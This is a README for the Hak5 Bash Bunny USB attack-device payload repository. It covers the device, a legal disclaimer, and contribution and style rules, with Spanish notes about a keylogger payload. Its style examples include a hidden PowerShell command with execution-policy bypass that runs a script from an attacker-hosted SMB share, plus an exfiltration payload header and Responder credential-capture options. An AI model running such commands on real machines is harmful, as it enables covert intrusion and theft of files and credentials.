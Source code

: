 # Payload Library for the Bash Bunny by Hak5

### For spanish users: Por favor, comenta positivamente en [esta pull request](https://github.com/hak5/bashbunny-payloads/pull/583) para traer un payload español y este gran payload para el bash bunny al repositorio oficial de Hak5.

This repository contains payloads and extensions for the Hak5 Bash Bunny. Community developed payloads are listed and developers are encouraged to create pull requests to make changes to or submit new payloads.

## Ediciones

- Se añadió el payload [bb-logger](https://github.com/Genplat/bb-logger)

## About the Bash Bunny

By emulating combinations of trusted USB devices — like gigabit Ethernet, serial, flash storage and keyboards — the Bash Bunny tricks computers into divulging data, exfiltrating documents, installing backdoors and many more exploits.
-   [Purchase at Hak5](https://hak5.org/products/bash-bunny "Purchase at Hak5")
-   [Documentation](https://docs.hak5.org/bash-bunny/ "Documentation")
-   [Bash Bunny Forums](https://forums.hak5.org/forum/92-bash-bunny/ "Forums")
-   Discord:  [https://hak5.org/discord](https://hak5.org/discord)

![enter image description here](https://cdn.shopify.com/s/files/1/0068/2142/products/bash-bunny-mk2_001_c58d9658-b151-4328-af26-11eef3c47355_300x.jpg)

## Documentation
Documentation on developing payloads for the Bash Bunny can be found on the [docs.hak5.org](https://docs.hak5.org/bash-bunny/) website. Guides can be found on the [Bash Bunny blog](https://hak5.org/blogs/bash-bunny).

## Disclaimer
Generally, payloads may execute commands on your device. As such, it is possible for a payload to damage your device. Payloads from this repository are provided AS-IS without warranty. While Hak5 makes a best effort to review payloads, there are no guarantees as to their effectiveness. As with any script, you are advised to proceed with caution.

## Legal
Payloads from this repository are provided for educational purposes only.  Hak5 gear is intended for authorized auditing and security analysis purposes only where permitted subject to local and international laws where applicable. Users are solely responsible for compliance with all laws of their locality. Hak5 LLC and affiliates claim no responsibility for unauthorized or unlawful use.

## Contributing
Once you have developed your payload, you are encouraged to contribute to this repository by submitting a Pull Request. Reviewed and Approved pull requests will add your payload to this repository, where they may be publically available.

Please adhere to the following best practices and style guide when submitting a payload.

### Naming Conventions
Please give your payload a unique and descriptive name. Do not use spaces in payload names. Each payload should be submit into its own directory, with `-` or `_` used in place of spaces, to one of the categories such as exfiltration, phishing, remote_access or recon. Do not create your own category.

### Binaries
Binaries may not be accepted in this repository. If a binary is used in conjunction with the payload, please document where it or its source may be obtained.

### Comments
Payloads should begin with comments specifying at the very least the name of the payload and author. Additional information such as a brief description, the target, any dependencies / prerequisites and the LED status used is helpful.

    Title: SMB Exfiltrator
    Description: Exfiltrates files from %userprofile%\documents via SMB
    Author: Hak5Darren
    Target: Windows XP SP3 - Latest
    Dependencies: impacket
   
### Configuration Options
Configurable options should be specified in variables at the top of the payload.txt file

    # Options
    RESPONDER_OPTIONS="-w -r -d -P"
    LOOTDIR=/root/udisk/loot/quickcreds

### LED
The payload should use common payload states rather than unique color/pattern combinations when possible with an LED command preceding the Stage or ATTACKMODE.

    # Initialization
    LED SETUP
    GET SWITCH_POSITION
    GET HOST_IP
    
    # Attack
    LED ATTACK
    ATTACKMODE HID ECM_ETHERNET

### Stages and States
Stages should be documented with comments

    # Keystroke Injection Stage
    # Runs hidden powershell which executes \\172.16.64.1\s\s.ps1 when available
    GET HOST_IP
    LED STAGE1
    ATTACKMODE HID
    RUN WIN "powershell -WindowStyle Hidden -Exec Bypass \"while (\$true) { If (Test-Connection $HOST_IP -count 1) { \\\\$HOST_IP\\s\\s.ps1; exit } }\""

Common payload states include a `SETUP`, with may include a `FAIL` if certain conditions are not met. This is typically followed by either a single `ATTACK` or multiple `STAGEs`. More complex payloads may include a `SPECIAL` function to wait until certain conditions are met. Payloads commonly end with a `CLEANUP` phase, such as moving and deleting files or stopping services. A payload may `FINISH` when the objective is complete and the device is safe to eject or turn off. These common payload states correspond to `LED` states.


